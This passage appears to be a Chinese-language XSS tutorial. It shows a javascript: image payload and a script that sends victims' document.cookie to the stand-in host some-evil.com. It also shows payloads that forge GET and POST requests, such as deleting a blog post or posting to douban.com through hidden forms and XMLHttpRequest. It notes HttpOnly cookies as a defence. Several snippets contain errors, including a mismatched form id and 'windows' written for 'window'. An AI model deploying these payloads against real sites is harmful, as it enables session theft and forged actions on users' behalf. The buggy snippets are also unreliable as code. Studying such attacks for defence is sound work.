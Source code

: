 `<img src="javascript:alert("xss")">`

### 获取cookie

- 简单cookie窃取示例：

```javascript
//http://some-evil.com/xss.js

var img=document.createElement("img");
img.src = "http://some-evil.com/log?"+escape(document.cookie);
document.body.appendChild(img);
```
log 路径即便不存在，也不影响信息收集，因为cookie信息会记入到日志里，例如apache2/access.log中。

若在服务器响应中设置 `Set-Cookie=HttpOnly;`，上述js脚本就无法获取cookie。或者将cookie与客户端ip绑定，那么攻击者就不可能在其他地方使用此cookie或凭证。

### 构造 GET 请求

GET 和 POST请求基本上可以完成网站所有操作。如果有xss漏洞，那么恰当使用js功能即可从浏览器或客户端完成各种操作。

例如：删除某blog文章的操作url为: `http://blog.xx.com/manage/entry.do?m=delete&id=123`。此blog上存在xss漏洞。

攻击者可以构造下列payload：

```javascript
//http://some-evil.com/xss.js

var img=document.createElement("img");
img.src = "http://blog.xx.com/manage/entry.do?m=delete&id=123";
document.body.appendChild(img);
```

然后诱骗用户执行某个操作，使浏览器加载`<script src="http://some-evil.com/xss.js"></script>`  即可。

### 构造 POST 请求

攻击者可以构造下列发送POST请求的payload：

```javascript
//http://some-evil.com/xss.js

var dd=document.createElement("div");
document.body.appendChild(dd);
dd.innerHTML = '<form action="" method="post" id="xssform" name="mbform">' +
                '<input type="hidden" value="jj" name="ck" />' + 
                '<input type="text" value="test" name="mb_text" />' +
                '</form>'
document.getElementById("xxsform").submit();
```
或者使用XMLHttpRequest构造post：

```javascript
//http://some-evil.com/xss.js

var url="http://www.douban.com"
var postStr = "ck=jj&mb_text=test1234";
var ajax = null;
if(windows.XMLHttpRequest){
    ajax = new XMLHttpRequest();
}
else if(windows.ActiveXObject){
    ajax = new ActiveXObject("Microsoft.XMLHTTP");
}
else{
    return;
}
ajax.open("POST",url,true);
ajax.setRequestHeader("Content-type","application/x-www-form-urlencoded");
```